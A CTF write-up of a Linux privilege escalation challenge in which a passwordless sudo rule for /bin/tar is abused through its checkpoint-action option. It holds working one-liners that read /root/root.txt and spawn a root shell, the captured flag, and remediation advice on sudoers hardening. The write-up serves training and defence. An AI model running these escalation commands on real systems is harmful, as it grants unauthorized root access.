


# KPMG CTF 2026: VaultDocs – 2 — Linux Privilege Escalation Writeup

## Challenge Information

| Field | Details |
| :--- | :--- |
| **Challenge Name** | VaultDocs – 2 |
| **Category** | Linux Privilege Escalation |
| **Points** | 10 |
| **Target SSH Host** | `0.cloud.chals.io` (Port `18220` / `34372`) |
| **Starting Point** | Low-privilege shell as `vboxuser` |
| **Objective** | Escalate privileges to `root` and retrieve the root flag (`root.txt`) |
| **Flag** | `KPMG_CTF{vujzSbEPjuGNy7fw7JMzFwgXuk21JyU8zB2fIaDqGmg}` |

---

## 1. Executive Summary

Having established an unprivileged foothold on the target machine as `vboxuser` during VaultDocs – 1, local privilege escalation was required to obtain administrative access. 

Auditing local permissions using `sudo -l` revealed that `vboxuser` possessed `NOPASSWD` permissions to execute `/bin/tar` as `root`. Because GNU `tar` supports checkpoint command execution flags, this capability allowed arbitrary command execution as root. By leveraging the standard `tar` checkpoint action technique, the contents of `/root/root.txt` were read and root privileges were achieved.

---

## 2. Step-by-Step Walkthrough

### Phase 1: Local Privilege Enumeration

After logging into the container/VM via SSH as `vboxuser`:

```bash
whoami
# Output: vboxuser

id
# Output: uid=1000(vboxuser) gid=1000(vboxuser) groups=1000(vboxuser),27(sudo)
```

Checking allowed `sudo` permissions without requiring a password:

```bash
sudo -l
```

**Output:**
```text
Matching Defaults entries for vboxuser on 7b3dd957bfc3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin, use_pty

User vboxuser may run the following commands on 7b3dd957bfc3:
    (root) NOPASSWD: /bin/tar
```

Attempting to read `/root/root.txt` directly via `sudo cat /root/root.txt` was disallowed, confirming that privilege escalation must be achieved strictly through the permitted binary `/bin/tar`.



---

### Phase 2: Analyzing `/bin/tar` GTFOBins Capabilities

GNU `tar` provides checkpointing functionality designed for tracking progress during archive processing:
* `--checkpoint[=N]`: Displays progress messages every *N* records (default 10).
* `--checkpoint-action=ACTION`: Executes a specified action at each checkpoint. 

When `ACTION` is set to `exec=<COMMAND>`, GNU `tar` passes the command string to the system shell. Because `/bin/tar` is invoked with `sudo`, any command launched by `--checkpoint-action` inherits `root` permissions (`uid=0`).

---

### Phase 3: Exploitation & Flag Retrieval

#### Method A: Direct File Read via Tar Checkpoint Action
To directly print `/root/root.txt`:

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action='exec=cat /root/root.txt'
```

**Execution Details:**
1. `-cf /dev/null /dev/null`: Instructs `tar` to create an archive written to `/dev/null` containing `/dev/null`.
2. `--checkpoint=1`: Triggers a checkpoint on the very first record processed.
3. `--checkpoint-action='exec=cat /root/root.txt'`: Triggers execution of `cat /root/root.txt` under root privileges.

**Captured Output:**
```text
/bin/tar: Removing leading '/' from member names
KPMG_CTF{vujzSbEPjuGNy7fw7JMzFwgXuk21JyU8zB2fIaDqGmg}
```



#### Method B: Interactive Root Shell (Alternative)
To elevate to an interactive root shell:

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Inside the root shell:
```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
```

---

## 3. Final Flag

```text
KPMG_CTF{vujzSbEPjuGNy7fw7JMzFwgXuk21JyU8zB2fIaDqGmg}
```

---

## 4. Root Cause Analysis

1. **Over-Permissive Sudoers Entry:**
   The `sudoers` configuration explicitly permitted `/bin/tar` with `NOPASSWD`. Archiving utilities like `tar`, `zip`, and `gzip` frequently possess arbitrary file read/write or command execution mechanisms (GTFOBins), making them unsuitable for unrestricted `sudo` delegation.
2. **Failure to Restrict Arguments:**
   The sudo rule did not constrain arguments, allowing the unprivileged user to provide arbitrary flags (`--checkpoint`, `--checkpoint-action`) that bypassed the intended administrative boundaries.

---

## 5. Remediation & Hardening

* **Principle of Least Privilege in Sudoers:**
  Avoid granting `sudo` permissions to binaries with known shell escapes or execution capabilities.
* **Use Dedicated Wrapper Scripts:**
  If users require backup or archiving permissions, write a hardened wrapper script that defines fixed parameters and does not accept user-controlled flags:
  ```bash
  #!/bin/bash
  # /usr/local/bin/safe_backup.sh
  tar -czf /backups/data_$(date +%F).tar.gz /var/www/html/docs/
  ```
  Grant `sudo` access only to the specific wrapper script:
  ```text
  vboxuser ALL=(ALL) NOPASSWD: /usr/local/bin/safe_backup.sh
  ```
* **Audit Sudo Configurations:**
  Regularly audit `/etc/sudoers` and `/etc/sudoers.d/` across systems to ensure no binaries with escape vectors are granted passwordless administrative execution.
